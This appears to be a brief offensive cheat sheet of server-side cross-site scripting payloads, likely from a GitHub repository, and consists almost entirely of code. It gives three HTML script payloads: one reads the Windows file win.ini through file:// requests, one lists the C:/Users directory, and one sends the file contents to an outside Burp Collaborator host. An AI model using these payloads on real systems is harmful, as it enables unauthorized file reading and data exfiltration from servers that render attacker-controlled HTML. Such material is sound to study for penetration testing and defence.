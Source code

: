 <b>Simple file reading via backend XSS:</b>
```html
<script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///C:/Windows/win.ini"); x.send(); </script></html>
```

<b>Catalogs listing:</b>
```html
<script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///C:/Users/"); x.send(); </script>
```
<b>Sending files to the collaborator:</b>
```html
<script>x=new XMLHttpRequest;x.onload=function(){a=new XMLHttpRequest;a.open("POST","http://randomcollaborator.burpcollaborator.net",true);a.setRequestHeader("Content-type", "application/x-www-form-urlencoded");a.send(this.responseText);};x.open("GET","file:///C:/Windows/win.ini");x.send();</script>
```

